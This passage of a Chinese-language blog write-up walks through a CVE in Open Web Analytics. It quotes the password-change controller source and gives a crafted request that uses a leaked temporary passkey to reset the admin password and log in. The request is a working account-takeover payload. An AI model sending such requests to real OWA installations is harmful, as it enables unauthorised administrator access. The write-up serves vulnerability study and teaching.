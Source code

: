 ![20230402](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230402%2017.png)

## Login & file writer

### login as admin

还是刚刚那篇分析cve的文章

![20230402](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230402%2018.png)

提到了可以用action： **`base.usersChangePassword`** 实现登录

相关的源代码 （位于 `owa_usersChangePasswordController` 下）

```php
function action() {
		
		// needed for old style embedded install migration
		if ( $this->getParam('is_embedded') ) {
			
			owa_coreAPI::setSetting('base', 'is_embedded', true);
		}
		
		
        $auth = owa_auth::get_instance();
        $status = $auth->authenticateUserTempPasskey($this->params['k']);

        // log to event queue
        if ($status === true) {
            $ed = owa_coreAPI::getEventDispatch();
            $new_password = array('key' => $this->params['k'], 'password' => $this->params['password'], 'ip' => $_SERVER['REMOTE_ADDR'], 'user_id' => $auth->u->get('user_id'));
            $ed->log($new_password, 'base.set_password');
            $auth->deleteCredentials();
            $this->setRedirectAction('base.loginForm');
            $this->set('status_code', 3006);
        } else {
            $this->setRedirectAction('base.loginForm');
            $this->set('error_code', 2011); // can't find key in the db
        }
    }
```

首先要读取 `$this->params['k']` 然后判定状态status为true，要构造的：

- `$this->params['k']` ： 为刚刚的temp_passkey ac9e4437ca5150340fdd0578d70a4211
- `$this->params['password']` 新得password

```php
owa_user_id=admin&owa_password=qwe123&owa_password2=qwe123&owa_action=base.usersChangePassword&owa_k=36bb6d5b1da9942b1447a1e226d34766
```

![20230402](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230402%2019.png)
